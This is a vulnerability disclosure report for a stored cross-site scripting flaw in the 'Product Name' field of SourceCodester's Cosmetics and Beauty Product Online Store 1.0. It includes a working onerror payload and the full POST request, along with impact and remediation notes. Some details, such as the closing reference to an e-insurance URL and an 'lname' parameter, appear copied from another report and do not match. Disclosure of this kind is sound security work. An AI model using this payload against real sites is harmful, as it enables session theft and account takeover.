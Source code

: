 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Product Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Product Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=save_product 
    Affected Parameter: Product Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Product Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Product Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=save_product 

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.
Content-Disposition: form-data; name="name"

```bash
 "><img src=xx onerror=alert(document.cookie)>
 ```


In the browser just create an product with malicious script and navigate to homepage

https://drive.google.com/file/d/1t29u20nWeS-dk8z-xNo5VJBecWtuM8V-/view?usp=drive_link
Payload:

> Content-Disposition: form-data; name="name"

```bash
"><img src=xx onerror=alert(document.cookie)>
```

Request:
```bash
POST /cbpos/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------424935362530218054633052935758
Content-Length: 1086
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/admin/?page=product/manage_product
Cookie: PHPSESSID=kmfcp9qgvb789441h8l4ues37v; __insuarance__logged=1; __insuarance__key=DEAH5SIN6WSHVCZFXTH5
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="id"


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="brand_id"

5
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="category_id"

7
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="name"

"><img src=xx onerror=alert(document.cookie)>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="specs"

<p>hiii<br></p>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="status"

1
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="img[]"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758--
```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Product name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
